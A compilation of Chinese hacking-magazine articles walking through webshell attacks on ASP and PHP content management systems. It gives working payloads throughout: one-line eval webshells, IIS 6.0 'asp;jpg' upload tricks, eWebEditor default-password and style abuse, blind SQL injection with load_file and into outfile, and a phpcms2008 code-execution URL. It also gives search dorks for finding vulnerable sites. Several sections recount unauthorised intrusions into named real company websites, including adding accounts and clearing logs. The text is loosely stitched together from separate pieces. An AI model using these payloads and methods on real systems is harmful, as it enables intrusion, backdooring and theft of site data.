从讯时的官方网站把最新版本的讯时网站管理系统 CMS

# 一个人的战争

v4.1下载回来，在虚拟机的IIS 6.0中把程序安装起来，访问地址为“http://127.0.0.1/”，其主界面如图1所示。


图1

我们直接使用浏览器访问“http://127.0.0.1/Edit/editor/filemanager/browser/default/browser.html?type=Image&Connector=http://127.0.0.1/Edit/editor/filemanager/connectors/asp/connector.asp”这个地址，就会打开如图2所示的页面（大家在测试时把上面地址中的127.0.0.1替换成你测试的具体网站域名或IP地址就行了）。


图2

把一句话木马的服务端代码“<%eval request("x")%>”保存为名为1.asp;jpg的文件，点击图中的“浏览”按钮选择1.asp;jpg文件，然后点击“上传”按钮，文件就会成功上传了，并且显示出了文件上传后的文件名，这里为F1201001182300515931.asp;jpg，完整的访问地址就是“http://127.0.0.1/Edit/editor/filemanager/connectors/asp/edit/uploadfile/20101/image/F1201001182300515931.asp;jpg”，如图3。


图3

现在，我们已经得到webshell了。什么？你不信？我们使用lake2的eval最小马发送端来连接“http://127.0.0.1/Edit/editor/filemanager/connectors/asp/edit/uploadfile/20101/image/F1201001182300515931.asp;jpg”，填上密码x，看到没有，成功地得到了webshell，如图4。


图4

不得不佩服熙雅构造的文件名的巧妙，既成功地把文件上传了，又保留了类似*.asp;*的文件名（其中*代表任意数字或字符），而*.asp;*形式的文件名正好又满足了IIS 6.0的解析漏洞，即IIS 6.0会把名为*.asp;*的这类文件直接当成asp文件来解析。由于我测试使用的系统正好是IIS 6.0，所以就得到了webshell。要想利用这个漏洞获得webshell，需要满足的一个前提条件就是web服务器是IIS 6.0。好在目前网络上运行ASP程序的web服务器几乎全都是IIS 6.0，所以这个前提基本上可以忽略掉。

### 二、智睿学校网站管理系统 v1.3.0

从网上下载智睿学校网站管理系统v1.3.0，并在IIS 6.0中搭建起来；访问地址为“http://127.0.0.1/”，首页如图5所示。


图5

直接在浏览器中访问“http://127.0.0.1/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://127.0.0.1/fckeditor/Feditor/filemanager/connectors/asp/connector.asp”，就来到了FCKeditor上传文件的地方，上传1.asp;jpg，上传后的文件名为20101182352359877.asp;jpg，完整的访问地址为“http://127.0.0.1/upload/image/20101182352359877.asp;jpg”，如图6。使用lake2的eval最小马发送端来连接“http://127.0.0.1/upload/image/20101182352359877.asp;jpg”，就成功得到webshell了，如图7。


图6


图7

我们在google中搜索“智睿学校网站管理系统 2009-2010”，就能找到使用智睿学校网站管理系统v1.3.0的网站了。

### 三、SiteDynamic企业网站管理系统 v1.6.2

SiteDynamic企业网站管理系统使用了较为成熟的ASP+ACCESS编写，是目前国内比较先进的ASP语言企业网站管理系统，其最新的v1.6.2及以前的版本也都存在这个漏洞。我们用IIS 6.0把SiteDynamic企业网站管理系统v1.6.2搭建了起来，访问地址为“http://127.0.0.1/”，如图8。

在浏览器中直接访问“http://127.0.0.1/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://127.0.0.1/fckeditor/editor/filemanager/connectors/asp/connector.asp”，就打开了FCKeditor上传文件的地方，上传1.asp;jpg，上传后的文件名为2010011909500374.asp;jpg，完整的访问地址为“http://127.0.0.1/uploadfile/image/2010011909500374.asp;jpg”，如图9。使用lake2的eval最小马发送端来连接“http://127.0.0.1/uploadfile/image/2010011909500374.asp;jpg”，就成功得到webshell了，如图10。


图8


图9


图10

我们在google中搜索“Powered By SiteDynamic Version 1.6.1”“Powered By SiteDynamic Version 1.6.2”等，就可以找到许多使用SiteDynamic企业网站管理系统的网站了。

### 四、DK企业网站管理系统 v1.0

我把DK企业网站管理系统v1.0的源代码下载回来后，在虚拟机的IIS 6.0下把网站架设了起来，访问地址为“http://127.0.0.1/”，网站首页如图11所示。

在浏览器中直接访问“http://127.0.0.1/admin/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://127.0.0.1/admin/fckeditor/editor/filemanager/connectors/asp/connector.asp”，就来到了上传文件的地方，上传1.asp;jpg，上传成功后的文件名为2010011910515073499.asp;jpg，完整的访问地址为“http://127.0.0.1/uploadfile/image/2010011910515073499.asp;jpg”，如图12。使用lake2的eval最小马发送端来连接“http://127.0.0.1/uploadfile/image/2010011910515073499.asp;jpg”，就成功地得到了webshell，如图13。

这个利用FCKeditor拿webshell的方法在以前，可能大家会觉得不可思议，但配合最新的IIS 6.0解析漏洞就可以让这一切成真了。为了方便大家在本机上进行测试，我把文章中提到的存在这个漏洞的四套程序的源码也打包提供给大家。


图11


图12


图13

我们搜索“版权所有 2009-2010 DKCMS”就可以找到使用DK企业网站管理系统v1.0的网站了。

（文章中所用到的lake2的eval最小马、4套程序的源码已收录到光盘中）


假期已经过去很久了，眼看着新学期就要开学了，看着墙上挂着的那副2010年的挂历，不由得感慨这种幸福的日子快要结束了。看着看着，发现这挂历原来是某个公司自己制作的，上面还留有公司的信息，包括了公司的网址。正好闲着无聊，看到网址我立刻就来了兴趣。

### 一、碰壁

打开了那个公司的网站，我大致地看了下，网站规模很小，使用的是ASP的动态页，数据库应该是Access，如图4。我的第一反应就是检测注入情况，随便找了个链接“http://www.cqpixie.com/gd/aboutus/newcontent.asp?id=53”，在网址后面分别添加“and 1=1”和“and 1=2”提交，结果返回了不同的页面，可以确定存在注入漏洞。于是我把这个网址放到啊D中去进行检测，啊D也判断出是Access数据库，可是却连一个表段也没有猜测出来，如图2。我又换用其他的工具也是这样，看来对方把表段信息设置得很是非主流啊！


图1

注入成了鸡肋，索性先找找后台再说，因为我们不能排除后台会有“or'='or'”这样的经典登录漏洞啊！后台很容易就找到了“http://www.cqpixie.com/admin/login.asp”，但是这个后台有些诡异，因为用户名和密码是输好了的，我直接点击“登录”按钮后，返回了错误提示信息。查看文件源代码，发现这里输入好的用户名和密码都是admin，真是令人想不通啊，如图3。先不管这个奇怪的后台了，我试了试“or'='or'”，发现也不行，我又根据社工的原理，试了试网页中的联系电话和邮箱等，但也都不正确。……冷静下来想一想，难道这个ewebeditor是让别人上当的陷阱吗？


### 二、迷路

现在真的感到有些无奈了，我可不喜欢旁注啊，费时又费力，除非是特别重要、非拿下不可的网站，否则我是不会旁注的。

正在一筹莫展之际，我无意间看到了自己以前的渗透笔记，其中曾提到了敏感文件的刺探。这里的敏感文件包括很多，比如robots.txt、readme.txt、说明.txt、licence.txt等等。想到这里我眼前不由一亮，真是好久没玩入侵了，很多习惯和细节都不记得了。我马上拿起Jsky对网站进行了检测，几秒钟过后，结果出来了，如图4，也检测到了SQL注入。在观察网站结构的时候，我发现了1.asp和test.asp这两个奇怪的文件。

我打开了“http://www.cqpixie.com/1.asp”，页面上凌乱地放置着代码、新闻数据、图片等，我又顺便查看了一下图片的属性，结果却让我有些欣喜，因为网站还有ewebeditor，如图5。难道是我人品爆发了？连忙在浏览器中打开“http://www.cqpixie.com/admin/ewebeditor/db/ewebeditor.mdb”，出现了令人激动的下载提示。下载了ewebeditor的默认数据库后将其打开，结果查找到它的登录密码就是默认的admin，如图6。

接下来就是登录ewebeditor了，在浏览器中直接打开“http://www.cqpixie.com/admin/ewebeditor/admin_login.asp”，我却傻眼了，页面居然不存在！


### 三、峰回

Ewebeditor也指望不上了，不然找到它的后台，或许就能通过它得到webshell了。对了，刚才不是还有个test.asp文件吗，我们来访问一下看看它又是什么？打开“http://www.cqpixie.com/test.asp”，如图7，看到后我是一阵迷糊，第二反应就是感觉这是账号密码之类的东西，因为带有admin的字样。我将这个adminadmin513拆分开来尝试登录后台，当尝试到以admin作为登录名、以admin513作为密码登录时，成功地进入了后台，如图8。真没想到我会以这种方式得到后台账户进入后台啊！再细细地想一下，这个test.asp肯定是建设网站时作为测试用的，但后来忘了删除了，大家在渗透过程中一定要牢牢把握这一点啊！


如图11，在使用一句话木马的时候我的IE7依然不好使，最后只好换用Chrome浏览器了。


### 四、获取Webshell

后台进入了，现在就该拿Webshell了。刚才我们不是发现了ewebeditor吗，看能不能利用上它，希望它不是个鸡肋。在后台选择“编辑器管理”－“样式管理”，接下来的操作就和以前利用ewebeditor一样了：选择“standard”样式“管理”操作中的“拷贝”，就得到了“standard1”样式，点击“设置”，修改“standard1”的上传文件格式，使之能上传asp、asa、cer、cdx后缀的文件，都加上吧，然后点击“提交”，如图9。

接下来就是预览刚才修改过的“standard1”，点击图片上传按钮，选择从本地上传图片，我上传了一个asa后缀的一句话asp木马。但不知是我IE7的问题还是网站的ewebeditor有问题，上传后的上传窗口总是不消失，也不提示上传是否成功。我关闭了上传窗口后也不能进入代码编辑模式，这样就不能利用代码模式来查询上传文件的文件名。我只好借助抓包工具Winsock Expert得到了上传文件名2010127195455248.asa，如图10。

貌似木马已经上传成功了，图片上传存放的目录是“/admin/ewebeditor/UploadFile/”，所以我使用一句话木马客户端来连接“http://www.cqpixie.com/admin/ewebeditor/UploadFile/2010127195455248.asa”，成功地得到了Webshell。

### 五、总结

本文并没有使用什么新技术。在SQL注入逐渐逝去的时代，依靠SQL漏洞来拿站已经变得越来越难了，至少对于使用工具的小菜来说确实是这样。无论网站还是服务器都是由人制作管理的，他们在制作的时候很难面面俱到，总会疏忽大意。我们在入侵网站或服务器的时候是要与人斗，而不是与死的机器斗。只要你有足够的细心、善于积累经验，就会抓住网站和服务器的任何一丝细节漏洞，最终成功。

> （文章中所用到的啊D、抓包工具Winsock Expert、海阳顶端ASP木马2006、Jsky已收录到光盘中）

## 博客空间站的一次入侵检测

帅克旋枫


从我认识X到一步步地去使用X介绍的知识和工具，已经有两年了，但很长时间都没亲自去动手实践，自己究竟到了什么程度心里一直也没有数。某日，公司需要更换一台打印机，于是我就上网找到了这家打印机代理公司的网站。可是，一直都打不通电话和对方联系，事情也就这样拖了很长一段时间，我就决定对他们公司的网站进行一次安全检测。

打开他们公司的网站，任意在“新闻中心”和“产品中心”页面中选择一个链接地址打开，在地址后面分别添加“and 1=1”和“and 1=2”提交来手工检测是否存在注入漏洞，但返回的结果却是一样的，都是：

```
Microsoft VBScript 运行时错误 '800a000d'

类型不匹配: 'cint'

/show_pto.asp, 行25
```

看来注入是没什么希望了，只能利用旁注了。拿出明小子，开始扫描网站，结果发现该服务器上有400多个站点，但却只有两个网站有注入点，不过一个扫描不到表名，另一个进不了后台管理。我又习惯性地在这个公司的网站后面加上了admin等来检测后台管理入口，最终检测出来的后台管理地址为“http://www.zijingroup.com/manage/login.asp”，简单猜测了下后台用户名和密码，居然都是admin，这管理员也太给面子了吧，如图1。


我仔细看了看最下方的版权信息，原来这个网站使用的是博贤网站系统的后台管理，直接输入用户名和密码，点击后面的enter登录进入后，显示出了详细的管理界面，如图2。


点击“产品数据管理”，选择“添加产品”，熟悉的ewebeditor界面就出来了，如图3。“信息类别”可以随便选择一个，我选择的是计算机；“首页推荐”不要勾选上，以免别人浏览这个站点的时候发现网站被更改过；“产品名称”也可以随意填写。在“详细内容”中点击上面的那个图片来上传一个asp木马，如图4。点击“确定”上传后，马上弹出了格式无效的对话框，提示格式只能为gif/jpg/jpeg/bmp等，如图5。


这时，我忽然想到了利用IIS 6.0的一个比较早的解析漏洞。简单地说，就是将asp木马的文件名改为xx.asp;gg.jpg。我们重新来上传，这回上传成功了，我们可以在编辑器的代码模式下看到上传后的图片地址，如图6。


我兴奋地在浏览器中打开地址“http://www.zijingroup.com/webeditor/uploadfile/201012494418283.jpg”，想看自己的马儿，却发现地址无法解析，如图7。我又重新看了下上传图片的地方，发现还有一个可以添加图片的地方，点击“浏览”，使……用同样的方法上传 xx.asp、gg.jpg，如图8，上传成功了，如图9。

服务器支持的组件属性有 `wscript.shell`，我们在网站目录的任意一个子目录下都可以上传任意文件，如图14。我的目的是拿到这个网站的 Webshell，至于提权就没有仔细研究下去。


返回到网站后台管理，点击“产品数据管理”下面的“数据管理”，找到刚才添加产品的页面，如图10，直接点击后面的那个图片，就可以打开我们上传的马儿了，如图11。


就这样得到了该网站的 Webshell，但发现权限有所限制，除了整个网站的内容可以任意浏览外，电脑中其它的盘符都无法浏览，如图12。

我浏览了一下 manage 目录，发现了 backup.asp 文件，这个不是备份页面吗？通过浏览器打开后，发现通过这个页面可以进行差异备份。“备份目录”填写已经知道的 manage 或者 DB 目录，“备份名称”可以根据需要进行更改。只需要简单上传一个 jpg 后缀的 asp 木马，记录下上传图片的地址，填写到“当前数据”中，然后点击“备份”，就可以打开 asp 木马了，如图13。

后来我又在网上搜索出了这套博贤管理系统的另外两个 0day 漏洞，加上今天这个，应该是第三个了。虽然那两个 0day 漏洞都没能够用上，不过这个网站如果之前使用明小子、网站猎手或者 wwwscan 等工具扫描到备份文件“http://www.zijingroup.com/manage/backup.asp”的话，就可以直接使用备份差异来得到 Webshell 了。很显然这套系统还有很多不安全的地方，使用博贤管理系统的朋友可要注意了。最后祝 X 在新的一年里有新的气象，越来越红火，也祝 X 子们能学到越来越多的东西，认识到更多志同道合的朋友！

> （文章中所用到的明小子、网站猎手已收录到光盘中）

## 博贤科技管理系统最新 0DAY 利用

清原长风 [B.B.E]

春节期间，大家都忙着过年，闲暇之余，我就到网上闲逛，东看看西看看，不知不觉看到了某 CMS，叫做博贤科技管理系统。话说这套 CMS 由南京某科技公司力作，没有免费版，不提供下载，只有拿 RMB 买，看起来貌似很有些来头。今天大家就请和我一起来分享一下这个金玉其外、败絮其中的系统。

### 一、解读漏洞

为了能更好地分析代码，也顺便给大家一个直观的视觉享受，于是我就下载了一套代码……当然也可以使用“inurl:cpzs.asp?ProClass=”为关键字进行搜索。

```asp
deStr(13)="insert"
deStr(14)="delete"
deStr(15)="drop"
deStr(16)="truncate"
...
if errc then
  Response.Write("对不起,非法URL地址请求")
  response.end
end if
```

这部分代码定义了 SQL 中的常见注入代码，使得网站可以防御 SQL 注入攻击……其次是这个文件没有提供任何检验 Cookies 和权限检验的代码。


图1

首先来说一下数据库，这套系统使用的是 Access 数据库，默认为“\Datebase\##boxian@\xp##.mdb”……首先是最重要的配置文件“\Public\publicconn.asp”，部分代码如下：

接下来我们打开存在漏洞的第一个文件“\manage\Product\add_news.asp”……同样的漏洞还出在同目录下的 add_newsclass.asp 等文件中。

```asp
<%
dim qs,errc,i
deStr(0)="net user"
deStr(1)="xp_cmdshell"
deStr(2)="/add"
...
deStr(12)="union"
%>
```


图2

### 二、测试漏洞

我们直接在浏览器中访问“\manage\Product\add_news.asp”，如图3，在这个页面中提供了上传图片的地方，当点击“保存设置”时，浏览器就会将内容交给“manage\Product\checknews.asp”来处理，我们来看看这个文件是怎样的：

返回到浏览器中，我选择了一个 ASP 木马上传，其它信息都可以不用填写，上传成功后会弹出对话框，提示并会转到“manage/Product/List_news.asp”页面（这个页面也没有检验访问权限），如图4。


```vb
<body>
</dim image()>
  dim upload,file,formName,formPath
  set upload=new upload_file
  filepath="../UpLoadPic/Pro_Pic/"
  for each formName in upload.file
    set file=upload.file(formName)
    fileExt=lcase(file.FileExt)
    randomize
    ranNum=int(90000*rnd)+10000
    fileName=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
    if file.FileSize>0 then
      file.SaveToFile Server.mappath(filepath&FileName)
      image(i)=FileName
    else
      image(i)=""
    end if
    set file=nothing
    i=i+1
  next
```

我们在列出的新闻中找到刚才添加的新闻，点击“EDIT”来编辑我们的新闻，如图5，我们刚才上传的 ASP 木马文件名已经显示出来了。上传的文件会保存在“\UpLoadPic\Pro_Pic”目录下，所以我们 Webshell 的地址就是“http://192.168.23.129:8000/UpLoadPic/Pro_Pic/201012017202180622.asp”，直接访问它，顺利得到了 Webshell，如图6。


### 三、小结

在保存文件时，这里只是很简单地判断了文件大小 `file.FileSize` 是否大于 0，根本没有其它方面（如文件头和文件后缀）的判断，这可是非常严重的偷懒行为啊！也正是这个严重缺陷，才让我们可以从 add_news.asp 文件中直接上传任意文件，当然包括我们的 Webshell。

简单的系统，严重的代码缺陷，对于这套系统我实在不想多说什么了，大家权当练练手吧。我把这套系统也打包一起送给大家，以方便大家分析！（文章中所用到的博贤科技管理系统源代码已收录到光盘中）

## 搜索型漏洞

## 浅话秀VODCMS 6.0.0

VODCMS 的前身就是秀影系统（经典的秀影4），由于它除了数据库连接文件没有加密外，其它关键代码都是经过 Zend Optimizer 加密，所以即使我们下载了源码也没什么用。文章随后介绍了 Zend 优化、代码保护及其对运行效率的影响，并说明公开此漏洞研究仅供技术交流。

我们学校的影视系统就采用了秀影系列，作者回顾了早期在秀影4的 help.php 中发现 GET 注入的经历，后续系统升级到 VODCMS6 后继续进行测试，形成本文对搜索型注入利用的说明。


VODCMS 使用者较多，先从主页入手（图1），结合 robots.txt 判断版本为 VODCMS6.0.0，再检查原版本相关入口是否仍存在注入点。

经过测试，原有位置未直接复现漏洞。对于 SQL 注入方式，文中按 GET、POST、SEARCH 分类，重点转向 SEARCH 注入，因为注册与表单处限制较多，POST 不易利用。


测试搜索参数时，输入 `a%' and 1=1 and '%'='` 返回正常；继续输入 `a%' and 1=2 and '%'='` 则提示错误未找到影片，据此判断存在 SEARCH 注入。


文中指出利用条件与 `magic_quotes_gpc=off` 有关，否则单引号会被过滤。并进一步解释搜索语句拼接逻辑，说明为何布尔条件可改变结果集。

```sql
sql="select * from name where vod_movie like '%".$keyword."%' order by id desc";
```

```
a%' and 1=1 and '%'='
```

```
a%' and 1=2 and '%'='
```

```
a%' and ord(mid(user(),1,1))=114 and '%'='
```

是不是 root，因为 r 的 ASCII 码是 114，返回正确。再来看第二个字母 `ord(mid(user(),2,1))`，也是正确的，基本可以确定用户为 root，如图5。

至此，我们有了两个思路：

- 下载源码并安装，查看一下数据库表名和字段名，根据表名和字段名构造语句进行猜解（但 MD5 也有可能解不出来）。
- 读文件，查看数据库连接密码，连接 mysql 或是 phpmyadmin（必须知道网站绝对路径）。

先来看一下能不能暴路径，访问常规文件当然不行了，我们找个偏僻的，访问“/admin/administratr/administratr_index.tpl.php”，成功暴出了路径，如图6。


这里是关键了，大家注意看路径文件夹有 APMServ5.2.0 关键字。APMServ 是一个建网站用的集合软件，包括 Apache、PHP、MySQL、phpMyAdmin，还集成了 ASP。我们可以猜解数据库连接密码，然后连接 phpMyAdmin 拿 Webshell！在源码中“config/database.inc.php”是数据库连接文件，里面有配置好的连接用户名和密码。


需要注意的是，由于 union 不能用，我们只能使用 and 一个字符一个字符地猜解，给出语句：

```sql
a%' and ascii(substr(load_file(0x路径的16进制),1,1))>97 and '%'='  // 猜解文件第一个字符

a%' and ascii(substr(load_file(0x路径的16进制),2,1))>97 and '%'='  // 猜解文件第二个字符
```

于是，目标网站对应的语句就是对  
`D:\APMServ5.2.0_20100104\www\htdocs\config\database.inc.php`  
进行逐字符判断。根据返回正确与否来判断字符范围，一步一步缩小，最终定位到连接密码开始处。

又猜了十几分钟，终于猜完了密码“1c2c******”（为了安全隐去一部分），马上访问 `http://www.xxx.com/phpmyadmin`，出现登录对话框，输入用户名 root 和猜出的密码，成功登录，如图10。


接下来就是拿 Webshell 了，我们随便选择一个数据库，执行下面的 SQL 语句，如图11。


```sql
Create TABLE a (cmd text NOT NULL);  // 创建a表cmd字段
Insert INTO a (cmd) VALUES('<?php eval($_POST[cmd]);?>');  // 向a表cmd字段插入一句话
Select cmd from a into outfile 'D:/APMServ5.2.0_20100104/www/htdocs/download/a.php';  // 导出到网站目录
Drop TABLE IF EXISTS a;  // 删除a表，擦PP嘛
```


然后“导出”shell 到网站目录，执行成功了，如图12。接下来就是使用 lake2 的工具进行连接了，“后门地址”栏填上一句话木马的地址，密码为 cmd，如图13。由于数据库权限是 root，上传大马后的权限也大得很，使用 cmd 直接添加账户成功，其它的我就不废话了，最后又留了一个文件提醒管理员修补漏洞。

入侵成功后，我又试了试第一个猜表名字段密码的方法，也成功猜出来了，只是 MD5 没有破解出来。搜索型注入在现在的 PHP 系统中并不好利用，必须是 `magic_quotes_gpc=off` 时才可以，而且一般的搜索型注入 union 又不可以使用，必须一点一点地猜。不过能不能入侵并不是目的，只是希望大家都能够从中学到知识就行了。

（文章中所用到的 lake2、ASCII 中英文字符编码查询已收录到光盘中）

## DedeCMS V5.5 Final GetWebshell

### 最新0day漏洞


DedeCMS（织梦内容管理系统）是国内使用非常广泛的一套 CMS 系统，目前的最新版本已经发布到 5.5 正式版了，但非常遗憾的是新版本又爆出漏洞了。这个漏洞允许恶意攻击者直接得到被攻击目标的 Webshell，而且影响 GBK、UTF-8 两个版本，至于 5.3 版本是否受影响我没进行测试。这个漏洞的利用过程非常简单，各位小菜鸟听我一一道来。

在浏览器中打开百度等搜索网站，以关键字“Power by DedeCMS”进行搜索，就可以找到许多使用这套程序的网站了。打开网站后拖到页面底部，看到有“Powered by DedeCms V55_GBK”或者“Powered by DedeCms V55_UTF8”的网站，就说明这个目标网站有可能会被成功攻击。

至于漏洞形成的具体原因我就不啰嗦了，直接拿出牛人们编写好的漏洞利用工具，有 PHP 版的，也有 exe 版的。为了方便广大菜鸟的使用，我就以 exe 版为例，来介绍一下如何利用这个漏洞进行攻击。

寻找好一个目标网站后，其底部版本信息如图1所示。我们把漏洞利用工具 dedeexp.exe 存放到 C 盘根目录下，然后打开 CMD 命令提示符，直接输入 dedeexp.exe，就会显示出工具的使用格式了，如图2。


也就是“dedeexp.exe 目标网站的域名 网站路径”，我们按照命令格式输入后，回车执行，显示如图3所示，攻击成功了，提示了我们 Webshell 的具体路径。程序提示一句话木马的服务端已经成功生成到“/data/.../cache/t.php”了。直接在浏览器中访问该页面会显示一片空白，说明该文件已经存在。我们使用 lanker 的一句话 PHP+ASP 两用客户端进行连接，成功了，如图4。最后再使用客户端的文件上传功能或文件创建功能，都可以把大马弄到服务器上，如图5。


通过查看该站数据库连接文件 data/common.inc.php，可以得到 MySQL 数据库的连接密码，成功连接数据库后再查阅数据库，可以得到管理员的账号密码，这样就可以登录后台了。发现官方已经有补丁可供下载了，如图6。更新完成后再来测试，发现漏洞已经不能再成功利用了，漏洞修复结束，如图7。最后就是清理一下后台登录日志，删除 Webshell，低调退场了。


（文章中涉及到的工具 dedeexp.exe、ASP+PHP 两用 Shell、Htm 已经收录在光盘中）

## PHPCMS2008 代码执行漏洞轻松拿 Webshell


phpcms 是国内一款非常著名的网站内容管理系统，目前最新的版本为 phpcms2008 SP3。2010 年 2 月 13 日，也就是农历大年三十，t00ls.net 的小米公布了 phpcms2008 的一个代码执行漏洞。尽管看到有牛人说这个漏洞比较老了，最新版本也已经修补了该漏洞，但我以前确实没有在网上看到别人公布过这个漏洞，估计以前只在少部分人中秘密流传过。我测试了一下，漏洞确实可用，并使用这个漏洞在网上拿到了几个 Webshell。尽管该漏洞对于某些牛人来说已经不是 0day 了，但对于像我这样的小菜们来说它却是最新的。再说了，能利用这个漏洞拿到 Webshell 对我们来说就是有用的。

为了测试漏洞，我从网上找到了存在漏洞的 phpcms2008 源代码 phpcms2008_gbk（20090316 从官方下载），在虚拟机系统的 php 环境中把网站搭建了起来（具体环境为 Apache/2.0.63（Win32）PHP/5.2.8），网站访问地址为“http://127.0.0.1/phpcms/”，如图1。

漏洞出在 guestbook 目录下的 index.php 文件中，要想利用这个漏洞，需要有一条留言才行。我们注册一个用户来给自己留一条言，然后就可以利用漏洞了。点击网页上的“注册”打开“http://127.0.0.1/phpcms/member/register.php”来注册一个。用户，这里我注册了一个名为 test、密码为 123456 的用户。注册成功后访问“http://127.0.0.1/phpcms/guestbook/”就来到了 phpcms2008 的留言板，点击“填写留言”来写一条留言。留言内容可以随便填写，但留言的标题需要注意一下，标题最好是由字母或数字组成，不要有汉字，而且标题要记住，一会儿利用漏洞时需要用到。这里我留了一条标题为 hackerxfiles 的留言，如图2。


留言成功后就可以进行漏洞利用了，直接在浏览器中访问“http://127.0.0.1/phpcms/guestbook/index.php?keywords=hackerxfiles&&page=1&${${phpinfo()}}”，显示如图3所示，成功执行了函数 phpinfo()。上面漏洞利用网址中的 hackerxfiles 就是我刚才填写的那条留言的标题。通过漏洞利用代码猜测，应该是在搜索留言的时候产生了代码执行漏洞。

```text
http://127.0.0.1/phpcms/guestbook/index.php?keywords=hackerxfiles&&page=1&${${phpinfo()}}

http://127.0.0.1/phpcms/guestbook/index.php?keywords=hackerxfiles&&page=1&${${fputs(fopen(base64_decode(...),w),base64_decode(...))}}
```


看似没什么异常，但事实上在 guestbook 目录下已经生成了 x.php，其内容为“<?php @eval($_POST[x]); ?>”，如图5。使用 lanker 一句话 PHP 后门客户端 3.0 内部版本连接“http://127.0.0.1/phpcms/guestbook/x.php”，成功得到了 webshell，如图6。


我再简单总结一下漏洞利用过程：注册一个用户，留言，使用你留言的标题替换漏洞利用代码中的 hackerxfiles。经过我的测试，phpcms2008 在版权的地方显示“CopyRight 2006--2008 酷6网（北京）信息技术有限公司版权所有”的很多网站都存在这个漏洞，而显示“CopyRight 2006---2009 酷6网（北京）信息技术有限公司版权所有”的则不存在这个漏洞。

文中提到的漏洞利用方法仅供安全爱好者进行安全测试使用，不要用来搞破坏。为了方便叉子们在本机测试这个漏洞，我把存在漏洞的源代码 phpcms2008_gbk(20090316官方下载).zip 也打包提供给大家了。

> （文章中涉及到的 lanker 一句话 PHP 后门客户端 3.0 内部版以及 phpcms2008_gbk(20090316官方下载).zip，已经收录在了光盘中）

## eWebEditor 编辑器漏洞全剖析

众所周知，eWebEditor 是一个基于浏览器的在线 HTML 编辑器，WEB 开发人员可以用它把传统的多行文本输入框 `<textarea>` 替换为可视化的富文本输入框。eWebEditor 应用于各种基于网页的应用系统中，如内容管理系统、邮件系统、论坛系统、新闻发布系统等与内容发布相关的所有应用系统。

eWebEditor 的下载地址为“http://www.ewebeditor.net/download.asp”，我们可以根据使用的平台来下载相应的 eWebEditor。由于 eWebEditor 的使用非常广泛，所以也就给我们研究其漏洞带来了价值，而且据我所知，目前大学网站的后台编辑大部分都使用 eWebEditor 进行编辑。下面我就简单总结一下 eWebEditor 能够利用的漏洞。

数据库默认的下载路径为“/db/ewebeditor.mdb”，如图6。下载成功后，打开数据库查看用户名和密码，如图7，都是经过 md5 加密的，我们可以拿到 MD5 解密的网站上进行解密，然后再登录后台修改样式就可以了。


- 1. 默认密码后台：admin，admin。在下载安装的 eWebEditor 编辑器根目录下有个说明，默认用户名和密码为 admin，admin。默认路径就不一定了，有可能是“edit/admin_login.asp”或者“admin/edit/admin_login.asp”。找到路径后进入后台，如图1，首先尝试默认用户名和密码 admin、admin，或者是 admin、admin888 等。如果幸运的话，就能够直接进入后台了，如图2，然后在“样式管理”里添加 asa 样式，如图3，点击预览上传 asa 木马，再在编辑器下点击代码找到上传的木马地址，打开后如图4、图5所示。


- 2. 如果 eWebEditor 的后台用户名和密码都已经被修改了，那么我们还可以通过下载数据库来获得管理员用户名和密码。


- 3. 如果上面前两种方法都无效，比如 MD5 没跑出密码来，或者是其它原因之类的，那我们就使用第三种方法，直接在下载的数据库里进行查找样式，也就是有人曾经入侵过、曾经修改了样式的上传格式，我们可以接着利用。添加样式“cwebeditor.asp?id=对应样式的id&style=样式”，具体用法如下：

在数据库里我们找到样式，如图8，把它修改为“cwebeditor.asp?id=14&style=standard”，然后直接进行上传，如图9。

- 4. 此外 eWebEditor 还有一个比较鸡肋的漏洞，那就是遍历漏洞，前提是你有进入 eWebEditor 后台的权限。获得权限后输入“admin_upload-file.asp?id=14&dir=../”，如图10，可以遍历网站目录下的所有文件。


图7


图9


图8


图10

好了，以上就是 eWebEditor 可以被利用的漏洞，只要大家坚持，肯定是可以达到想要的目的的，在入侵的路子上最忌讳的就是没有恒心。

## 深度网址导航上传漏洞

### 快速拿 webshell


深度网址导航是一个使用得比较多的网站导航系统。早期版本曾被披露注入漏洞，后续升级到 3.1.2 版本后，又被发现存在非常严重的上传漏洞，利用该漏洞可直接拿到 webshell。

为了方便演示，作者在虚拟机中搭建 Windows 2003 环境并部署网站程序，访问地址为 http://127.0.0.1/。

源码中，存在上传漏洞的文件是 admin/include/ 目录下的 upload_form.asp，其关键代码如下：

```asp
function check()
    var strFileName=document.uploadForm.strPhoto2.value;
    if(strFileName==""){
        ...
    }
```

```asp
if (...) {
    alert("请选择要上传的文件");
    document.uploadForm.strPhoto2.focus();
    return false;
}

<%
'设置上传文件尺寸，例如：最大为500K，输入500
MaxSize = request.QueryString("MaxSize") * 1024

'设置文件限制格式，允许的附件类型，例如：gif/jpg/rar/zip
FileType = request.QueryString("FileType")

'设置文件的保存路径
SavePath = request.QueryString("SavePath")

'返回到表单的值，例如：form1.fProducts_Pic
parentBackValue = request.QueryString("parentBackValue")
%>

<form action="upload_file.asp" enctype="multipart/form-data" name="uploadForm" method="post" onSubmit="return check()">
  图片上传：<input name="strPhoto2" type="file" id="strPhoto2"/>
  <input type="submit" name="Submit" value="上传"/>
  <input type="reset" name="Submit2" value="重置"/>
  (大小<%=MaxSize/1024%>K)

  <input type="text" name="MaxSize" value="<%=MaxSize%>"/>
  <input type="text" name="FileType" value="<%=FileType%>"/>
  <input type="text" name="SavePath" value="<%=SavePath%>"/>
  <input type="text" name="parentBackValue" value="<%=parentBackValue%>"/>
</form>
```


只检查了上传文件是否为空，不为空就允许上传。虽然定义了允许上传的附件类型变量 FileType，但却没有赋值，而 FileType、SavePath 等变量我们都可以自己赋值，这就导致了漏洞的产生。漏洞利用很简单，直接在浏览器中访问“http://127.0.0.1/admin/include/upload_form.asp”，就可以直接上传 asp 文件了，如图2。

我就以上传 asp 一句话木马为例，上传成功后会显示上传后的文件名，这里为 `2010030243148393.asp`。上传目录为 `upload_form.asp` 的当前目录，也就是 `admin/include/` 目录下，所以 shell 的完整访问地址就为 `http://127.0.0.1/admin/include/2010030243148393.asp`，使用 lanker 的 eval 最小马发送端进行连接，成功得到了 webshell，如图3。

